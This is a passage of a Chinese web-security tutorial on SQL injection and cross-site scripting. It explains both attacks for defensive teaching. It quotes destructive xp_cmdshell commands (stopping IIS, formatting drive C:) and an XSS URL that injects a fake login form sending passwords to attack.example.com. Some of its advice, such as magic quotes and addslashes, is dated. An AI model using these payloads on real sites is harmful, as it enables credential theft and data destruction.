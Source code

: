 </ul>
<ul>
<li>取得系统管理员权限（例如ALTER LOGIN sa WITH PASSWORD=’xxxxxx’）。</li>
</ul>
<ul>
<li>在数据库中的数据中插入一些HTML/JS代码，有可能得以在网页加入恶意链接以及XSS，这样一来就让访问者被黑。</li>
</ul>
<ul>
<li>经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统（例如：MS SQL Server的 xp_cmdshell “net stop iisadmin”可停止服务器的IIS服务）。甚至破坏硬盘数据，瘫痪全系统（例如xp_cmdshell “FORMAT C:”）。</li>
</ul>
<div>现在的黑客比较坏，瘫痪系统的事，他们干的越来越少，因为没什么利益，他们希望通过获取用户的帐号信息后，转而攻击用户别的帐号，如游戏帐号，网银帐号，QQ帐号等等他们可以获利的事情（这就是为什么我希望大家<a title="如何管理并设计你的口令" href="http://coolshell.cn/articles/2428.html">在不站点上使用不同的口令</a>，甚至不同的用户信息的原因）</div>
<p><strong>如何避免</strong></p>
<ul>
<li>在组合SQL字符串时，先针对所传入的参数作字符转义（如：将单引号字符取代为连续2个单引号字符）。如果使用PHP开发网页程序的话，亦可打开PHP的Magic quote功能自动将所有的网页传入参数，将单引号字符取代为连续2个单引号字符。<strong>如果可能应该过滤以下字符：分号“;”，两个减号“–”，单引号“’”，注释“/* … */”</strong>。（当然，因为注入攻击一般用闭合的引号来玩，所以把引号转义了应该就没有什么问题了）</li>
</ul>
<ul>
<li>更换危险字符。例如在PHP通过<code>addslashes()</code>函数保护SQL注入。</li>
</ul>
<ul>
<li>限制用户输入的长度，限制用户输入的取值范围。</li>
</ul>
<ul>
<li>为当前应用建立权限比较小的数据库用户，这样不会导致数据库管理员丢失。</li>
</ul>
<ul>
<li>把数据库操作封装成一个Service，对于敏感数据，对于每个客户端的IP，在一定时间内每次只返回一条记录。这样可以避免被拖库。</li>
</ul>
<h4></h4>
<h4>跨网站脚本注 入</h4>
<p><strong>跨网站脚本</strong>（<strong>Cross-site</strong> scripting，通常简称为XSS或跨站脚本或跨站脚本攻击）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java， VBScript， ActiveX， Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。</p>
<p>假如我们有这样一段PHP的代码：</p>
<pre>$username = $_GET[&#39;username&#39;];
echo &#39;&lt;div&gt; Welcome, &#39; . $username . &#39;&lt;/div&gt;&#39;;</pre>
<p>那么我们可以这样来注入：</p>
<div style="color:#1b00aa;background-color:#efefef;border:1px solid #dde2f5;font-size:90%;padding:10px">http://trustedSite.example.com/welcome.php?username=&lt;Script Language=”Javascript”&gt;alert(“You’ve been attacked!”);&lt;/Script&gt;</div>
<p>甚至这样：</p>
<div style="color:#1b00aa;background-color:#efefef;border:1px solid #dde2f5;font-size:90%;padding:10px">http://trustedSite.example.com/welcome.php?username=&lt;div id=”stealPassword”&gt;Please Login:&lt;form name=”input” action=”http://attack.example.com/stealPassword.php” method=”post”&gt;Username: &lt;input type=”text” name=”username” /&gt;&lt;br/&gt;Password: &lt;input type=”password” name=”password” /&gt;&lt;input type=”submit” value=”Login” /&gt;&lt;/form&gt;&lt;/div&gt;</div>
<p>这会让网页显示以下内容：</p>
<pre>
&lt;div class=&quot;header&quot;&gt; Welcome,
    &lt;div id=&quot;stealPassword&quot;&gt;Please Login:
        &lt;form name=&quot;input&quot; action=&quot;attack.example.com/stealPassword.php&quot; method=&quot;post&quot;&gt;
            Username: &lt;input type=&quot;text&quot; name=&quot;username&quot; /&gt;
            &lt;br/&gt;
            Password: &lt;input type=&quot;password&quot; name=&quot;password&quot; /&gt;
            &lt;input type=&quot;submit&quot; value=&quot;Login&quot; /&gt;
        &lt;/form&gt;
    &lt;/div&gt;
&lt;/div&gt;
</pre>